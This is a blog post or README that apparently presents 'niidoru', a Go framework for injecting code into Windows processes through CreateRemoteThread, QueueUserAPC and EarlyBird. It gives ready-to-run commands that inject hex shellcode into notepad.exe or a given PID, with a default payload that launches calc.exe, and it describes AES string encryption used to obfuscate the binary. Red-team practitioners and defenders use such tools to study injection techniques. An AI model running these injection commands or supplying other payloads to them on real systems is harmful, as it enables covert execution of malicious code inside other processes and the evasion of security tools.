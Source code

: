 ```yaml
---
layout: post
title: Playing with process injection in Golang
excerpt_separator: <!--more-->
---
```


niiidoru ("ニードル") is a framework for Process Injection in Windows developed in Go.

<!--more-->


Repository: [https://github.com/ricardojoserf/niidoru](https://github.com/ricardojoserf/niidoru)

<br>

```
go run . -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```

- -m (Mandatory): Process injection method. Options:


    - *-m 1*: **Method 1** or **CreateRemoteThread** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread + CloseHandle)

    - *-m 2*: **Method 2** or **QueueUserAPC** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC + CloseHandle)

    - *-m 3*: **Method 3** or **EarlyBird** method (CreateProcess + VirtualAllocEx + WriteProcessMemory + VirtualProtectEx + QueueUserAPC + ResumeThread + CloseHandle)

- -p (Optional):  Process ID or PID. Example: 1234

- -n (Optional):  Process name. Example: notepad.exe

- -h (Optional):  Hexadecimal payload. It can be in the format "\x50\x51\x52" or "505152". Default: Payload to pop calc.exe 


<br>

------------------------------

## Examples

Process injection using CreateRemoteThread method, targeting a notepad.exe process and a payload in hexadecimal format with "\x":  

```
go run . -m 1 -n notepad.exe -h \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
```

Process injection using QueueUserAPC method, targeting a process with PID 4272 and a payload in hexadecimal format without "\x":

```
go run . -m 2 -p 4272 -h 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
```

Process injection using EarlyBird method, spawning a new Notepad process and the default payload:

```
go run . -m 3 -n c:\windows\system32\notepad.exe 
```

Screenshot of the three examples:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/niidoru/Screenshot_1.png)


------------------------------

## Using the binary

Compile it with:

```
go build
```

Then you can use the same commands as earlier replacing "go run ." with "niidoru.exe":

``` 
niidoru.exe -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```

<br>

------------------------------

## AES encryption

AES is used to obfuscate all the strings in the binary. To change the encrypted values and keys you can use [this gist](https://gist.github.com/ricardojoserf/986b8be42b356da530469bbd32fa88fa) (which is a small variation from [this gist](https://gist.githubusercontent.com/aziza-kasenova/3aea2160cbaebc5a4ba1b9219cba612e/raw/32b3801369ce669b2b1bf89ca84d24f23b487579/AES256.go) but fixing a small problem with the padding). 

If you are not interested in this and just want to see the encryption methods with more representative names, you can check the [no-encryption branch](https://github.com/ricardojoserf/niidoru/tree/no_encryption).
